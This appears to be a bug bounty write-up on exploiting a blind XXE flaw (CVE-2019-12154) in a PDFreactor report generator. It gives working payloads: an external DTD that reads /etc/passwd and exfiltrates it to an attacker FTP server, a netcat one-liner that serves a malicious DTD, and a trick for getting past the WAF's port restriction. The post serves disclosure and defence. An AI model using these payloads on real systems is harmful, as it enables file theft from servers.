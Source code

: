 ```yaml
---
layout: post
title: "Data Exfiltration through Blind XXE on PDF Generator"
summary: "In this post, I will explain how I found a Blind XXE injection on PDF Generator that was vulnerable to CVE-2019-12154"
categories: BugBounty
largeimage: /assets/images/49.png
author: arbennsh
---
```

## Data Exfiltration through Blind XXE on PDF Generator

# Summary:

&nbsp;
In this post, I will explain how I found a Blind XXE injection on PDF Generator that was vulnerable to CVE-2019-12154. However, in order to exfilftrate data, I had to bypass some WAF restrictions.
&nbsp;

&nbsp;
![image49]({{ site.baseurl }}/assets/images/49.png){:.images}
&nbsp;

An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.
&nbsp;

The web application that I was testing was designed for financial operations, and low-level users were able to generate reports. Because this was a private bug bounty program, I've redacted some of the screenshots below and referred to the target as **"redacted.com"**.
&nbsp;

RealObjects PDFreactor (version 9.1.97971) was used in the web application to generate PDF reports. Versions of PDFReactor prior to "10.1.1" are vulnerable to CVE-2019-12154, which does not have a publicly available PoC, but I was able to reproduce the issue by injecting malicious XML content and exfiltrate data using external DTD's.
&nbsp;

In order to reproduce this vulnerability, two attacking machines with publicly accessible IP addresses were required. This was due to the PDF Generator machine's firewall only allowing requests to port 443. The need for an SSL certificate was eliminated because I was able to bypass the application logic by using **http://** as protocol and appending port **:443** at the end of the url, such as **http://attacker.com:443**.


# Steps to Reproduce:

&nbsp;
**1. Preparing the needed scripts and payloads:**{: style="color: red"}
&nbsp;

While exploiting this vulnerability, I had pointed the below subdomains to two different IP's.
&nbsp;

1. http.arben.sh -> [IP_HERE]
1. ftp.arben.sh -> [ANOTHER_IP_HERE]

&nbsp;
On the `ftp.arben.sh`{: style="color: red"} server I used [xxe-ftp-server.rb](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb) which uses Ruby language to launch an FTP server on the attacker's specified port (in this case 443).
&nbsp;

To do this, I changed line nr. 3 on xxe-ftp-server.rb script from **"ftp_server = TCPServer.new 2121"** to **"ftp_server = TCPServer.new 443**".
&nbsp;

Then fired up the script using the following command:
> $> ruby xxe-ftp-server.rb
> {: style="color: red"}

&nbsp;

Heading over to `http.arben.sh`{: style="color: red"} subdomain, in the directory where the HTTP server would be running, I created a file named **payload.dtd** with the following content.
&nbsp;

&nbsp;
```xml
<!ENTITY % stuff SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'ftp://ftp.arben.sh:443/%stuff;'>">
```
&nbsp;

A simple way to start a HTTP server on a desired port is by using Python with the following command:
> $> python3 -m http.server 443
> {: style="color: red"}
&nbsp;

**2. Sending the malicious request:**{: style="color: red"}
&nbsp;

I logged in using my low-privileged account and navigated to the report generation page from the left menu. I had BurpSuite on the background intercepting the requests and clicked on the "PDF" text (marked with red sign as shown in the screenshot below) in order to generate the PDF.

&nbsp;
![image46]({{ site.baseurl }}/assets/images/46.png){:.images}
&nbsp;

On the intercepted request being made to "https://redacted.com/redacted/api/v1/pdf/download", I then edited the **htmlBody=**{: style="color: red"} parameter with the following payload (URL encoded):
&nbsp;

&nbsp;
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "https://http.arben.sh:443/payload.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

&nbsp;
- The above payload would send a HTTP request to our HTTP server and execute the payload stored within **payload.dtd**, which would then exfiltrate data of **/etc/passwd** (or any specified file/directory) to our FTP server as shown on the screenshots below. Even though the target's server responded with a "500 Internal Server Error" status code, the payload was being processed in the backend.


&nbsp;
![image47]({{ site.baseurl }}/assets/images/47.png){:.images}
&nbsp;

Heading over to our virtual private server's, we saw that a request for **payload.dtd** was made and we began receiving data on our FTP server. We were able to easily enumerate files and directories on the target's system because this PDFGenerator was built in Java.

&nbsp;
![image48]({{ site.baseurl }}/assets/images/48.png){:.images}
&nbsp;

When I mentioned this issue to my friend [0xCela](https://twitter.com/0xcela), he came up with a One-Liner that would eliminate the need for two private servers.
&nbsp;

An attacker could use the **netcat** utility to listen on port 443 and serve a static response (malicious dtd), then kill the HTTP server and immediately start an FTP server using the Ruby script. Even though this appears to be simple because it requires less effort to set up the payloads, it may only work occasionally due to race conditions and lower the vulnerability severity, but again it would reduce the attacker's cost.
&nbsp;

**Command on VPS:**
&nbsp;

```bash
echo -e 'HTTP/1.1 200 OK\n\n<!ENTITY % payl SYSTEM '"'"'file:///etc/passwd'"'"'>\n<!ENTITY % int "<!ENTITY &#37; trick SYSTEM '"'"'ftp://attacker:443/%payl;'"'"'>">' | nc -N -lnvp 443; ruby xxe-ftp-server.rb

```
&nbsp;

**Request payload on BurpSuite:**
&nbsp;

```xml
<?xml version="1.0"?><!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://attacker:443/">%remote;%int;%trick;]>
```
&nbsp;

*Note: A PDF Generator may appear insignificant at first glance but it can be an open door to your organization for the attacker. To resolve such issues, make sure your software is always up to date and that proper WAF rules are in place.*

&nbsp;
*Thank you for taking the time to read this, and I hope you find it useful.*
&nbsp;
